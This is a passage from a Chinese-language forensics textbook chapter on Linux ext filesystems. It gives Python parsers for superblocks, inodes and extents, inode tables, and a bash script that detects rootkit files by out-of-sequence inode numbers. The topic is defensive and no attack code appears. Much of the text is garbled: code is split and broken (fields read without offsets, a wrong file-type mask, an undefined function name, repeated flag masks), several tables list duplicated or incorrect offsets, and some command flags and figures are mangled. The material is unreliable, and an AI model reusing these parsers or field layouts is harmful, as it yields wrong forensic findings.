self.layout.append(['Inode Table', it, it + itBlocks - 1])
# is inode table in group?
if sb.groupFromBlock(it) == bgNo:
    self.nonDataBlocks += itBlocks * fbgAdj

self.layout.append(['Data Blocks', self.startBlock + nonDataBlocks, self.endBlock])

def prettyPrint(self):
    print 'Block Group: %s' % self.blockGroup
    print 'Flags: %s' % self.flags
    print 'Blocks: %s - %s' % (self.startBlock, self.endBlock)
    print 'Inodes: %s - %s' % (self.startInode, self.endInode)
    print 'Layout:'
    for item in self.layout:
        print ' %s %s %s' % (item[0], item[1], item[2])
    print 'Free Inodes: %u' % self.freeInodes
    print 'Free Blocks: %u %u' % self.freeBlocks
    print 'Directories: %u %u' % self.directories
    print 'Checksum: 0x %x' % self.checksum
    print 'Block Bitmap Checksum: 0x %x' % self.blockBitmapChecksum
    print 'Inode Bitmap Checksum: 0x %x' % self.inodeBitmapChecksum
```

### 说明

该类读取包含 Linux 扩展（`ext2`/`ext3`/`ext4`）系统的镜像超级块和块组描述符，并以组织的方式存储文件元数据。信息更新至 2015 年 7 月。

用法：`emd = ExtMetadata(filename, offset)`，其中 `filename` 是原始镜像文件，`offset` 是从文件开始到扩展文件第一个扇区的 512 字节偏移量。

`emd.prettyPrint()` 将打印超级块信息并遍历每个块组打印统计数据和布局。

```python
class ExtMetadata():
    def __init__(self, filename, offset):
        # read first sector
        if not os.path.isfile(sys.argv[1]):
            print("File " + str(filename) + " cannot be opened for reading")
            exit(1)
        with open(str(filename), 'rb') as f:
            f.seek(1024 + int(offset) * 512)
            sbRaw = str(f.read(1024))
            self.superblock = Superblock(sbRaw)
            # read block group descriptors
            self.blockGroups = self.superblock.blockGroups()
            if self.superblock.descriptorSize != 0:
                self.wideBlockGroups = True
                self.blockGroupDescriptorSize = 64
            else:
                self.wideBlockGroups = False
                self.blockGroupDescriptorSize = 32
        # read in group descriptors starting in block 1
        with open(str(filename), 'rb') as f:
            f.seek(int(offset) * 512 + self.superblock.blockSize)
            bgdRaw = str(f.read(self.blockGroups * self.blockGroupDescriptorSize))
            self.bgdList = []
            for i in range(0, self.blockGroups):
                bgd = Descriptor(bgdRaw[i * self.blockGroupDescriptorSize:], self.wideBlockGroups)
                ebgd = ExtendedGroupDescriptor(bgd, self.superblock, i)
                self.bgdList.append(ebgd)

    def prettyPrint(self):
        self.superblock.prettyPrint()
        for bgd in self.bgdList:
            bgd.prettyPrint()
```


```python
def usage():

    print("usage " + sys.argv[0] + " <image file> +offset in sectors\nReads superblock from an image file")

    exit(1)

def main():

    if len(sys.argv) < 3:

        usage()

    # read first sector

    if not os.path.isfile(sys.argv[1]):

        print("File " + sys.argv[1] + " cannot be opened for reading")

        exit(1)

    emd = ExtMetadata(sys.argv[1], sys.argv[2])

    emd.prettyPrint()

if __name__ == "__main__":

    main()
```

该类读取包含 Linux 扩展（ext2/ext3/ext4）系统的镜像文件的超级块和块组描述符，并以组织的方式存储文件系统元数据。信息更新至 2015 年 7 月。

运行该脚本针对 PFE 系统的部分结果在图 7.13、图 7.14 和图 7.15 中所示。在图 7.13 中，我们看到使用了灵活组（flexible groups）。图中未显示大小为 16 的灵活块组。在图 7.14 中，显示了第一个组。如往常，它包含超级块和块组描述符（包括用于未来扩展的预留块）。你会注意到数据位图和节点位图之间有 16 个块，节点位图和节点表之间也是如此。

通过此命令，你将看到所有这些备份超级块和组描述符表都在正确的位置。


图 7.15

在 PFE 目标系统上运行 `extfs.py` 脚本的结果 – 第 3 部分。

在我们进入下一个新话题之前，我认为我应该指出，我们仅仅触及了这个脚本中类所能做到的冰一角。例如，这些类可以很容易地用于计算给定 inode 或数据块的镜像的偏移量。它也可以被用于从偏移量反推，以确定任何特定扇区中存储了什么。现在，我们已经学习了扩展文件系统的所有基础知识，并将开始讨论如何检测攻击者的行为，即使他或她修改了文件系统上的时间戳。

# 寻找不常的事物

到本章为止，我们已经看到了许多关于扩展文件系统工作原理的理论。我们可以利用这些知识来发现不寻常或不太对的地方。毕竟，这通常是取证调查员所看到的。不一致之处和异常情况往往指向攻击者试图隐藏其行为的尝试。

某些系统目录如 `/sbin` 和 `/bin` 是攻击者重点关注的目标。即使是 `ls` 命令通常也足以检测这些目录的更改。我们如何检测系统目录中的篡改呢？当系统安装时，系统目录中的文件是一个接一个复制的。因此，文件通常被存储在连续的 inode 中。攻击者随后添加的任何内容可能具有较高的 inode 号。

`ls -ali` 命令将列出所有文件（`-a`）并采用长列表格式（`-l`），这会以 inode 号（`-`）开头。如果我们取此命令的结果并将其传递给 `sort -n`，它们将按 inode 号进行数值型（`-n`）排序。在 PFE 目标系统的挂载目录（目标根目录）中运行 `ls -ali bin | sort -n` 的结果如图 7.16 所示。与 Xing Yuan rootkit 关联的文件已被高亮。注意，inode 大多是连续的，但在安装恶意软件时，它们突然从 655,549 跳跃到了 665,076。


图 7.16

在 PFE 目标镜像上运行 `ls -ali bin | sort -n` 的结果。高亮的文件来自 rootkit 安装。

某些读者可能预期的 inode 号要大得多。它们只有几千个的主要原因是，Linux 会尽力将给定目录中的文件存储在同一个块组中。只有当包含目录的块组没有空间时，文件才会被存储在其他地方。这是一种性能优化，试图尽可能地减少硬盘读写头的移动。

在这种情况下，攻击者并没有尝试修改 rootkit 文件的时间戳。有很多工具可以允许你轻松修改这些时间戳。需要意识到的一点是，无论你对时间戳做了什么，inode 每次都会揭示最近添加的文件。

`ls` 命令支持几种基本的排序。默认排序是字母顺序，但它还会按扩展名、大小、时间和版本进行排序。命令 `ls -alir <directory>-sort=size` 将对目录进行递归（`-R`）列出，并按大小（从大到小）进行排序。运行 `ls -alir bin -sort=size` 的部分结果如图 7.17 所示。

## 图 7.17

在 PFE 目标镜像上运行 `ls -alir bin -sort=size` 的部分结果。

查看被高亮的文件 `bash` 和 `false`，后者在调用时返回值 `false`。然而，它是 `/bin` 目录中三个最大的文件之一。它同样可疑的是，与 `/bin/bash` 的大小完全相同。这里似乎发生的情况是，攻击者将 `/bin/bash` 复制到 `/bin/false` 之上，试图用系统账户登录。注意，这个攻击者并不非常高明，这一点从他们完成工作后没有更改 `/bin/false` 的时间戳这一事实得到了证明。

由于攻击者未能修改时间戳，按时间排序的列表也将很清楚地显示发生了什么。`ls -alir bin -sort-time` 命令的执行结果部分列表如图 7.18 所示。高亮部分同时显示了 rootkit 文件和最近修改的 `/bin/false`。

```
total 56

-drwxr-xr-x 4 root root 4096 Feb 12 12:21 ..

12 ..

-drwxr-xr-x 4 root root 4096 Feb 12 12:21 ..

2 ..

-drwxr-xr-x 4 root root 4096 Feb 12 12:21 ..

2 ..

-rw-r--r-- 1 root root    0 Feb 12 12:21 file_a

-rw-r--r-- 1 root root    0 Feb 12 12:21 file_b

-rw-r--r-- 1 root root    0 Feb 12 12:21 file_c

-rw-r--r-- 1 root root    0 Feb 12 12:21 file_d
```

```bash
#!/bin/bash

usage () {

  echo "Usage: $0 <path>"

  exit 1

}

if [ $# -lt 1 ]; then

  usage

fi

temp=/tmp/ls.txt

ls -ali $1 | sort -n > $temp

foundinode=false

declare -i startinode

while read line

do

  if [ "$foundinode" = false ] && [ "$(echo "$line" | wc -w)" -gt 6 ]; then

    startinode=$(echo "$line" | awk '{print $1}')

    foundinode=true

  fi

  q=$(echo "$line" | awk '{print $1}')

  if [[ $q =~ ^[0-9]+$ ]] && [ "$startinode" -lt $q ]; then

    if [ $((startinode + 1)) -lt $q ]; then

      echo -e "\e[31m*Out of sequence detected: $startinode got $q\e[0m"

    else

      echo -e "\e[31m*Out of sequence detected: $startinode got $q\e[0m"

    fi

  else

    startinode=$(echo "$line" | awk '{print $1}')

  fi

  echo "$line"

  startinode=$((startinode+1))

done < $temp

rm $temp
```


该脚本以通常的 shebang 开始，后面是一个在没有传递命令行参数时调用的 `usage` 函数。为了提高性能并使脚本更简单，`ls -ali <directory> | sort -n` 的输出被发送到一个临时文件。创建了两个变量 `foundinode` 和 `startinode`。这创建了一个整数类型的变量。还将该变量初始化为零。我们稍后会在脚本中解释为什么要这样做。

值可以像这样增加。当循环退出时，临时文件会被删除。在 PFE 目标系统的 `/bin` 目录上运行此脚本的部分结果如图 7.19 所示。注意根文件之前的红色警告。


图 7.19

在 PFE 目标系统的 `/bin` 目录上运行 `out-of-seq-inode.sh` 的部分结果。注意针对 rootkit 文件的警告。

### INODES（索引节点）

现在我们从理论中休息了一会儿，并玩了一些脚本，现在是时候回来学习元数据的守护者——inode 了。对于 ext2 和 ext3 文件系统，inode 的长度为 128 字节。截至本文编写，ext4 文件系统使用 156 字节的 inode，但在磁盘上分配了 256 字节。这额外的 100 字节用于未来的扩展，并且正如我们在本章稍后看到的，也可以用于存储。

为了使用 inode，你必须首先找到它。与 inode 关联的块组可以通过公式轻松计算：

```
block group = ( inode number – 1 ) / (inodes per group)
```

显然，这里应该使用整数除法，因为块组是整数。一旦定位了正确的块组，就必须计算块组表中的索引。这可以通过模运算轻松完成。回想 `mod y` 在执行整数除法 x/y 时给出余数。索引的公式非常简单：

```
index = (inode number – 1) mod (inodes per group)
```

最后，给出了 inode 表的偏移量：

```
offset = index * (inode size on disk)
```

inode 结构总结在表 7.5 中。这些字段大部分是自言易懂的。那些不自言易懂的将在本节中进行更详细的描述。

inode 中有两个依赖于操作系统的联合体（OSD）。如果你的文件系统来自 Hurd 或 BSD，它们将与此处描述的不同。对于由 Linux 创建的文件系统，第一个 OSD 存储 inode 版本。对于由 Linux 创建的扩展文件系统，第二个 OSD 包含几个值的高 16 位。

块数组存储 32 位的块地址。如果用它来直接存储组成文件的块，限制将是巨大的。例如，如果使用 4 字节的块，文件将被限制在 60 KB！然而，这并不是该数组的使用方式，前 12 个条目是直接块项，包含组成文件的前 12 个数据块（使用 4KB 块时为 48 KB）的块号。如果需要更多空间，第 13 条目包含单间接块（singly indirect block）的块号。单间接块是一个包含组成文件的数据块列表的数据块。如果块大小为 4 KB，单间接块可以指向 1024 个数据块。使用单间接块可以存储的最大量为 (数据块大小) * (数据块中可以存储的块地址数量)，或 (4 KB) * (1024)，等于 4 MB。

对于过大到无法用直接块和单间接块存储（48 KB + 4 MB）的文件，第 14 条目包含双间接块（doubly indirect block）的块号。双间接块指向一个包含单间接块列表的块。双间接块可以存储是单间接块 1024 倍的内容（再次假设块为 4 KB），这意味着可以容纳大小为 (48 KB + 4 MB + 4 GB)的文件。如果空间仍然不够，最后一个条目包含指向三级间接块（triply indirect blocks）的指针，允许存储大小为 (48 KB + 4 MB + 4 GB + 4 TB）的文件。该块系统如图 7.20 所示。

## 12 直接块 (48 kB)


三级间接
(48 kB + 4 MB + 4 GB + 4 TB)

注意：所有大小均假设块为 4 kB

图 7.20

inode 块数组中的数据块。

如果你查看的是 ext2 或 ext3 文件系统，那么上面的 inode 字段列表就是完整的。对于 ext4 文件系统，添加了表 7.6 中的字段。大多数字段是额外的时间位。

### 表 7.5. Inode 结构。

| Offset | Size | Name | Description |
|---|---|---|---|
| 0x0 | 2 | File Mode | 文件模式和类型 |
| 0x2 | 2 | UID | 所有者 ID 的低 16 位 |
| 0x4 | 4 | Size lo | 文件大小的低 32 位 |
| 0x8 | 4 | Atime | 自 epoch 以来的访问时间（秒） |
| 0xC | 4 | Ctime | 自 epoch 以来的更改时间（秒） |
| 0x10 | 4 | Mtime | 自 epoch 以来的修改时间（秒） |
| 0x14 | 4 | Dtime | 自 epoch 以来的删除时间（秒） |
| 0x18 | 2 | GID | 组 ID 的低 16 位 |
| 0x1A | 2 | Hlink | 硬链接计数 |
| 0x1C | 4 | Size lo | 文件大小的低 32 位 |
| 0x20 | 4 | Flags | 标志 |
| 0x24 | 4 | Version | 版本 |
| 0x28 | 4 | Blocks | 块数量 |
| 0x60 | 4 | Checksum | 校验和 |
| 0x64 | 4 | Version | 版本 |
| 0x68 | 4 | Blocks | 高 32 位块 |
| 0x6C | 4 | Ctime | 自 epoch 以来的更改时间（秒） |
| 0x70 | 4 | Mtime | 自 epoch 以来的修改时间（秒） |
| 0x74 | 4 | Atime | 自 epoch 以来的访问时间（秒） |
| 0x76 | 4 | Crtime | 自 epoch 以来的创建时间（秒） |
| 0x78 | 2 | UID | 所有 ID |
| 0x7A | 2 | GID | 组 ID |
| 0x7C | 2 | Checksum | 校验和低位

### 表 7.6. ext4 中的额外字段。

| Offset | Size | Name | Description |
|---|---|---|---|
| 0x80 | 2 | Checksum | 校验和 |
| 0x82 | 2 | Size | 额外大小位 |
| 0x84 | 4 | Ctime | 自 epoch 以来的更改时间（秒） |
| 0x88 | 4 | Mtime | 自 epoch 以来的修改时间（秒） |
| 0x8C | 4 | Atime | 自 epoch 以来的访问时间（秒） |
| 0x90 | 4 | Crtime | 自 epoch 以来的创建时间（秒） |
| 0x94 | 4 | Crtime | 自 epoch 以来的创建时间（秒） |
| 0x98 | 4 | Blocks | 块数量 |
| 0x9C | 4 | Unused | 未使用 |

### 表 7.7. 特殊 inode。

| Inode | 特殊用途 |
|---|---|
| 0 | 无 inode，编号从 1 开始 |
| 1 | 缺陷块列表 |
| 2 | 目录 |
| 3 | 用户配额 |
| 4 | 组配额 |
| 5 | 引导加载器 |
| 6 | 取消目录 |
| 7 | 预留组描述符（用于文件系统调整大小） |
| 8 | 日志 |
| 9 | 排除 inode（用于快照） |
| 10 | 副本 inode |
| 11 | 第一个非预留 inode（通常为 +found） |

## 使用 Python 读取 inode

我们再次转向 Python 以方便地解释 inode 数据。为了实现这一点，我们将一个新的 `Inode` 类添加到到我们不断扩展的 `extfs.py` 文件中。以下是新类和辅助函数。

```
```
辅助函数用于解析存储在 inode 中的模式位向量。它接受一个 16 位的模式位向量并返回一个字符串列表。
```
```python
def getInodeModes(mode):
    retVal = []
    if mode & 0x1:
        retVal.append("Others Exec")
    if mode & 0x2:
        retVal.append("Others Write")
    if mode & 0x4:
```
```python
retVal.append("Others Read")
if mode & 0x8:
    retVal.append("Group Exec")
if mode & 0x10:
```


`retVal.append("Group Write")`

`if mode & 0x20:`
    `retVal.append("Group Read")`

`if mode & 0x40:`
    `retVal.append("Owner Exec")`

`if mode & 0x80:`
    `retVal.append("Owner Write")`

`if mode & 0x100:`
    `retVal.append("Owner Read")`

`if mode & 0x200:`
    `retVal.append("Sticky Bit")`

`if mode & 0x400:`
    `retVal.append("Set GID")`

`if mode & 0x800:`
    `retVal.append("Set UID")`

`return retVal`

### 解析 inode 模式位向量获取文件类型

此辅助函数解析存储在 inode 中的模式位向量，以获取文件类型。
它接受一个 16 位的模式位向量并返回一个字符串。

```python
def getInodeFileType(mode):
    fType = (mode & 0xf00) >> 12
    if fType == 0x1:
        return "FIFO"
    elif fType == 0x2:
        return "Char Device"
    elif fType == 0x4:
        return "Directory"
    elif fType == 0x6:
        return "Block Device"
    elif fType == 0x8:
        return "Regular File"
    elif fType == 0xA:
        return "Symbolic Link"
    elif fType == 0xc:
        return "Socket"
    else:
        return "Unknown Filetype"
```

### 解析 inode 标志位向量

此辅助函数解析存储在 inode 中的标志位向量。
它接受一个 32 位的标志位向量并返回一个字符串列表。

```python
def getInodeFlags(flags):
    retVal = []
    if flags & 0x1:
        retVal.append("Secure Deletion")
    if flags & 0x2:
        retVal.append("Preserve for Undelete")
    if flags & 0x4:
        retVal.append("Compressed File")
    if flags & 0x8:
        retVal.append("Synchronous Writes")
    if flags & 0x10:
        retVal.append("Immutable File")
    if flags & 0x20:
        retVal.append("Append Only")
    if flags & 0x40:
        retVal.append("Do Not Dump")
    if flags & 0x80:
        retVal.append("Do Not Update Access Time")
    if flags & 0x100:
        retVal.append("Dirty Compressed File")
    if flags & 0x200:
        retVal.append("Compressed Clusters")
    if flags & 0x400:
        retVal.append("Do Not Compress")
    if flags & 0x800:
        retVal.append("Encrypted Inode")
    if flags & 0x1000:
        retVal.append("Directory Hash Indexes")
    if flags & 0x2000:
        retVal.append("AFS Magic Directory")
    if flags & 0x4000:
        retVal.append("Must Be Written Through Journal")
    if flags & 0x8000:
        retVal.append("Do Not Merge File Tail")
    if flags & 0x10000:
        retVal.append("Directory Entries Written asynchronously")
    if flags & 0x200000:
        retVal.append("Top of Directory Hierarchy")
    if flags & 0x400000:
        retVal.append("Huge File")
    if flags & 0x80000:
        retVal.append("Inode uses Extents")
    if flags & 0x200000:
        retVal.append("Large Extended Attribute in Inode")
    if flags & 0x400000:
        retVal.append("Blocks Past EOF")
    if flags & 0x1000000:
        retVal.append("Inode is Snapshot")
    if flags & 0x4000000:
        retVal.append("Snapshot is being Deleted")
    if flags & 0x8000000:
        retVal.append("Snapshot Shrink Completed")
    if flags & 0x10000000:
        retVal.append("Inline Data")
    if flags & 0x80000000:
        retVal.append("Reserved for Ext4 Library")
    if flags & 0x4bdfff:
        retVal.append("User-visible Flags")
    if flags & 0x4b80ff:
        retVal.append("User-modifiable Flags")
    return retVal
```

此辅助函数将 inode 号转换为块组（block group）以及该块组中的索引。
用法：`[bg, index] = getInodeLoc(inodeNo, inodesPerGroup)`

```python
def getInodeLoc(inodeNo, inodesPerGroup):
    bg = (int(inodeNo) - 1) / int(inodesPerGroup)
    index = (int(inodeNo) - 1) % int(inodesPerGroup)
    return [bg, index]
```

### `Inode` 类

`Inode` 类按顺序存储扩展信息，并提供了一个格式化输出的辅助函数。构造函数接受数据和大小（默认为 128 字节）。对于大于 128 字节的 inode，第一个字是额外信息的大小。用法：`inode = Inode(data, size)`。

```python
class Inode():
    def __init__(self, data, size=128):
        # 存储模式位向量及其解释
        self.mode = getU16(data)
        # 文件类型
        self.fieldType = getFileType(self.mode)
        # 所有者 ID
        self.ownerID = getU16(data)
        # 文件大小
        self.fileSize = getU32(data)
        # 访问时间
        self.accessTime = getU32(data)
        # 修改时间
        self.modifyTime = getU32(data)
        # 删除时间
        self.deleteTime = getU32(data)
        # 组 ID
```


```python
self.groupID = getU16(data)
```

# 链接数

```python
self.links = getU16(data)
```

# 块

```python
self.blocks = getU32(data)
```

# 标志位向量

```python
self.flags = getU32(data)
```

# 标志列表

```python
self.flagList = getInodeFlags(self.flags)
```

# 操作系统

```python
self.os = getU32(data)
```

# 生成号

```python
self.generation = getU32(data)
```

# 扩展属性（如果 inode 大于128 字节）

```python
if size > 128:
    self.extendAttribs = []
    self.inodeSize = 128 + getU16(data)
    # 这里的逻辑是根据实际情况从数据中填充扩展属性
    for i in range(15):
        self.extendAttribs.append(getU32(data, 0x28 + i * 4))
else:
    self.inodeSize = size
    self.extendAttribs = []
```

```python
def prettyPrint(self):
    for k, v in sorted(self.__dict__.items()):
        print(k+":", v)
```

```python
emd = extfs.ExtMetadata(sys.argv[1], sys.argv[2])

# get inode location
inodeLoc = extfs.getInodeLoc(sys.argv[3],)

emd.superblock.inodesPerGroup

offset = emd.bgdList[inodeLoc[0]].inodeTable + \
* emd.superblock.block.inodeSize

inodeLoc[1] * emd.superblock.inodeSize

with open(str(sys.argv[1]), 'rb') as f:
    f.seek(offset + int(sys.argv[2]) * 512)
    data = str(f.read(emd.superblock.inodeSize))

inode = extfs.getInode(data, "%s in Block Group %s at index %s") % (str(sys.argv[3]), \
str(inodeLoc[0]), str(inodeLoc[1]))

inode.prettyPrint()

if __name__ == "__main__":
    main()
```


在这个脚本中，我们通过 `import extfs` 这一行导入了 `extfs.py` 文件。注意导入语句中没有文件扩展名。脚本逻辑非常直接：如果传递给脚本的参数不足，会调用典型的用法函数。它创建一个扩展元数据对象，然后计算所涉及 `inode` 的位置。一旦确定了位置，就会从文件中检索 `inode` 数据并创建一个打印到屏幕上的 `inode` 对象。注意，由于我们现在正在调用当前文件之外的代码，必须在函数名面前加上 `extfs.`。我们可以通过将导入语句更改为 `from extfs import *` 来避免这一点，但我没有这样做，因为我觉得带有 `extfs.` 前缀会让代码更清晰。

针对来自 PFE 学科系统镜像中某一个有趣的 `inode` 运行此新脚本的结果如图 7.21 所示。关于这个 `inode` 有几点需要注意：首先，标志位 `flags` 表明该 `inode` 使用了某种含义，即块数组具有不同的解释（将在本章稍晚部分进行更详细介绍）。其次，该 `inode` 包含一个创建时间。由于这是 `ext4` 文件系统中才有的一个新字段，许多工具（包括修改时间戳的工具）都不会更改此字段。这个未被更改的时间戳对于法取证调查员来说是极佳的数据。现在我们已经学习了通用的 `inode`，准备开始讨论如果文件系统启用某些功能时将会出现的某些 `inode` 扩展。

## Inode 扩展与细节

你可能已经注意到上一节中的脚本，`inode` 中的文件模式位向量 `bitvector` 包含的不仅仅文件模式。除了可以通过 `chmod` 命令更改的标准模式信息外，还存储了文件类型。文件模式位向量总结在表 7.8。

### 表 7.8. 源自 inode 的文件模式位向量。**加粗**的项目是互斥的。

| 15 | 14 | 13 | 12 | 11 | 10 | 9 | 8 |
|---|---|---|---|---|---|---|---|
| 带有位13的普通文件或符号链接或带有位14的套接字 | 带有位13的目录或块设备 | 带有位14的字符设备或块 | FIFO | 设置 UID | 设置 GID | 粘位 (Sticky Bit) | 所有者读 |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
| 所有者写 | 所有者执行 | 组读 | 组写 | 组执行 | 其他读 | 其他写 | 其他执行 |

检查表 7.8 时，低 12 位应该看起来熟悉，因为所有这些模式都可以通过标准的 Linux `chmod`（更改模式）命令进行更改。这些文件模式并不是互斥的。高 4 位用于指定文件类型。每个文件只允许一种类型。文件类型详细列在表 7.9 中。

### 表 7.9. 从 inode 文件模式的高四位解码文件类型。

| | | 源自 inode 文件模式的位 |
|---|---|---| 15 | 14 | 13 | 12 |
| FIFO (管道) | 0 | 0 | 0 | 1 |
| 字符设备 | 0 | 0 | 1 | 0 |
| 目录 | 0 | 1 | 0 | 0 |
| 块设备 | 0 | 1 | 1 | 0 |
| 普通文件 | 1 | 0 | 0 | 0 |
| 符号链接 | 1 | 0 | 1 | 0 |
| 套接字 | 1 | 1 | 0 | 0 |

`inode` 包含一个 32 位的标志位向量。低字 `word` 标志总结在表 7.10 中。某些标志可能缺乏操作系统的支持。熟悉 Windows 的调查员可能知道注册表标志 `HKLM\SYSTEM\CurrentSet\Control\FileSystem\NtfsDisableLastAccessUpdate`，它可以禁用 NTFS 目录上的访问时间更新。在位 7 中，不更新访问时间在扩展文件系统中提供了类似的功能，但它是作用于单个文件或目录层级的。

### 表 7.10. inode 标志的低字。

| 15 | 14 | 12 | 11 | 10 | 9 | 8 |
|---|---|---|---|---|---|---|---|
| 文件尾合并 | 数据已写入日志 | AFS 魔数 | 目录哈希索引 | 加密 inode | 不压缩文件 | 压缩簇 | 脏数据压缩文件 |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
| 不更新访问时间 | 备份 (Dump) | 仅追加 (Append) | 同步写入 | 文件已压缩 | 留留删除 | 安全删除 |

标志的高字 `high word` 总结在表 7.11 中。这些标志大部分仅在 `ext4` 的背景下有意义。在位 28，`inode` 具有内联数据，用于将小文件完全存储在 `inode` 中。前 60 字节存储在块数组中（这不需要存储块）。如果文件增长超过 60 字节到 160 字节。如果文件超过 160 字节，所有数据将移动到块。

### 表 7.11. inode 标志的高字。

| 31 | 30 | 29 | 28 | 27 | 26 | 25 | 24 |
|---|---|---|---|---|---|---|---|
| ext4 预留 | 未用 | inode 具有内联数据 | 快照完成 | 未用 | inode 是快照 |
| 23 | 22 | 21 | 20 | 19 | 18 | 17 | 16 |
| 未用 | 文件末后的块（已弃） | inode 存储大属性 | 未用 | inode 使用扩展 (extents) | 目录顶部 | 同步写入 |

大文件以簇指定大小而不是块。当存在大文件时，簇大小存储在超级块中。大文件需要扩展。扩展将在本文稍后讨论。在内联数据中，扩展对这些 60 字节有不同的用途。我们说过 `inode` 是元数据的守护者。在下一节中，我们将讨论根据 `inode` 中存储的信息检索文件。

## 从 inode 到文件

我们已经讨论了块数组中的条目以及它们如何用于指定文件的块。我们也看到这些 60 字节可能被重用。如果 `inode` 存储的是符号链接且目标小于 60 字节，它将存储在块数组中。如果设置了内联数据，前 60 字节位于空间中。我们也提到扩展使用这些 60 字节的方式不同。

在解析文件（或目录）的块列表 `inode` 时，在最通的情况下（即没有扩展），我们读取块数组中的前两个条目并将任何非零值添加到我们的列表中。如果第 13 个条目非零，我们读取包含 1024 个块列表的块。任何非零条目都添加到列表中。这允许处理大小为 4 MB + 48 KB 的文件。

如果块数组中有第 14 个条目，我们加载包含块列表的块，将其转换为块列表。这种双级间接允许有 1024 * 1024 个条目，至少指向 4 GB + 4 MB + 48 KB。如果仍然不够，最后一个条目用于三级间接，理论上允许文件达到 4 TB + 4 GB + 4 MB。如果你使用的是 `ext4` 文件系统，更有可能使用下一节讨论的扩展。

### 扩展 Extents

上一节描述的存储块列表系统在大多数文件都很小时很好。然而，当文件大小以 MB、GB 或 TB 为单位时，性能迅速成为问题。公平地说，Linux 扩展文件系统存在了几十年，对许多用户来说仍然是可以接受的。改进大性能的优雅解决方案是使用扩展。

扩展以树结构存储块。熟悉 NTFS 的人会知道它以类似的方式使用数据运行（连续簇）列表。与 Linux 中的大多数事物一样，在树中存储块比 Windows 使用的简单列表高效得多。构建扩展树需要三种结构。扩展树的顶节点必须有一个头部，指示节点中存储的内容。树的顶节点通常被称为根节点。根节点始终存储在索引数组的开头。所有非空扩展树都至少有一个被称为扩展的叶节点（本质上等同于 NTFS 数据运行）。根节点和叶节点之间可能存在中间节点，称为索引。所有三种结构的长度均为 12 字节，允许将根节点加上四个条目存储在索引数组中。

扩展头部总结在表 7.12 中。头部以一个魔数开始，用于双重检查后续内容不是传统的块条目。如果深度为 0，此节点头部后的条目是叶节点（扩展）。否则，条目用于索引（中间）节点。如果你进行计算，存储 `ext4` 支持的最大文件在树中永远不需要超过五层。

### 7.12. 扩展头部格式。

| 偏移量 | 大小 | 名称 | 描述 |
|---|---|---|---|
| 0x0 | 2 | Magic | 魔数 0xF30A |
| 0x2 | 2 | Entries | 头部后的条目 |
| 0x4 | 2 | Max Entries | 头部后可能的最大条目数 |
| 0x6 | 2 | Depth | 0=此节点指向数据块；1-5=此节点指向其他扩展 |
| 0x8 | 4 | Generation | 树的代数 |

扩展 `inode` 条目总结在表 7.13 中。第一个字段中的块是逻辑块号（文件包含从逻辑块零到总块数减一的块）。对于熟悉 NTFS 的人，这类似于虚拟簇号 `VCN`。索引节点中唯一的真实数据是树中低一层节点的 48 位块地址。

### 表 7.13. 范围索引格式。

| 偏移量 | 大小 | 名称 | 描述 |
| --- | --- | --- | --- |
| 0x0 | 4 | Block | 此节点覆盖了块 x 及后续块 |
| 0x4 | 4 | Leaf lo | 包含该节点（叶子节点或树中低一层的另一个索引）的块低 32 位 |
| 0x8 | 2 | Leaf hi | 上述块的高 16 位 |
| 0xA | | Unused | 填充至 12 字节大小 |

范围（叶子）`leaf` 节点在表 7.14 中进行了总结。与索引节点一样，第一个字段是逻辑块号。后面紧跟一个长度。该长度通常小于 32,768。然而，如果该文件系统支持未初始化的块（带有懒性块组功能），则大于 32,768 的值表示该范围由 `(32,768 – 长度)` 个未初始的数据块组成。这并不常见。范围以该范围内第一个块的 48 位数据块地址结束。

### 表 7.14. 范围节点格式。

| 偏移量 | 大小 | 名称 | 描述 |
| --- | --- | --- | --- |
| 0x0 | 4 | Block | 此范围覆盖的第一个块 |
| 0x4 | 2 | Len | 如果 <= 32768，则范围内的初始化块数量；如果 > 32768，则范围为 (len-32768) 个单元块 |
| 0x6 | 2 | Start hi | 起始块的高 16 位 |
| 0x8 | 4 | Start lo | 起始块的低 32 位 |


### Class `ExtentHeader`
解析 12 字节的范围头部，该头部存在于 Linux ext4 文件系统设置了范围标志位（extent flag）的 inode 的每个范围节点中。接受一个 12 字节的紧凑字符串。

用法: `eh = ExtentHeader(data)`  
`eh.prettyPrint()`

```python
class ExtentHeader():
    def __init__(self, data):
        self.magic = getU16(data)
        self.entries = getU16(data, 0x2)
        self.max = getU16(data, 0x4)
        self.depth = getU16(data, 0x6)
        self.generation = getU32(data, 0x8)

    def prettyPrint(self):
        print("Extent depth: %s entries: %s max-entries: %s generation: %s" \
        % (self.depth, self.entries, self.max, self.generation))
```

### Class `ExtentIndex`
代表范围树中的中间或索引节点。接受一个包含索引的 12 字节紧凑字符串。
用法: `ei = ExtentIndex(data)`  
`ei.prettyPrint()`

```python
class ExtentIndex():
    def __init__(self, data):
        self.block = getU32(data)
        self.leaflo = getU32(data, 0x4)
        self.leafhi = getU16(data, 0x8)

    def prettyPrint(self):
        print("Index block: %s leaf: %s" \
        % (self.block, self.leafHi * pow(2, 32) + self.leafLo))
```

### Class `Extent`
代表范围树中的叶子节点或范围。接受一个包含范围的 12 字节紧凑字符串。
用法: `ext = Extent(data)`  
`extent.prettyPrint()`

```python
class Extent():
    def __init__(self, data):
        self.block = getU32(data)
        self.len = getU16(data, 0x4)
        self.startHi = getU16(data, 0x6)
        self.startLo = get32(data, 0x8)

    def prettyPrint(self):
        print("Extent block: %s data blocks: %s - %s"
              %(self.block, self.startHi * pow(2, 32) + self.startLo, \
              self.len + self.startHi * pow(2, 32) + self.startLo - 1))
```

### Function `getTree(data)`
此函数将从传入的数据中获取范围树。

注意 1：仅解析传递给函数的数据。如果节点是索引节点，则不会遍历树。

注意 2：在最常见的情况下，传入的数据将来自 inode 块数组的 60 字节，允许存储高达 512 MB 的文件。

```python
def getTree(data):
    # 第一条目必须是头部
    retVal = []
    retVal.append(ExtentHeader(data))
    if retVal[0].depth == 0:
        # 叶子节点
        for i in range(0, retVal[0].entries):
            retVal.append(Extent(data[(i + 1) * 12 : :]))
    else:
        # 索引节点
        for i in range(0, retVal[0].entries):
            retVal.append(ExtentIndex(data[(i + 1) * 12 : :]))
    return retVal
```

此代码使用了书中尚未涵盖的技术。我们必须修改 inode 类以正确处理范围。`Inode` 类。该类以有序的方式存储 inode 信息，并提供一个格式化的辅助函数。它接受一个包含 inode 数据的紧凑字符串，大小是定义的。对于大于 128 字节的 inode，更新后的 inode 类如下所示。
用法: `inode = Inode(data)`  
`inode.prettyPrint()`

```python
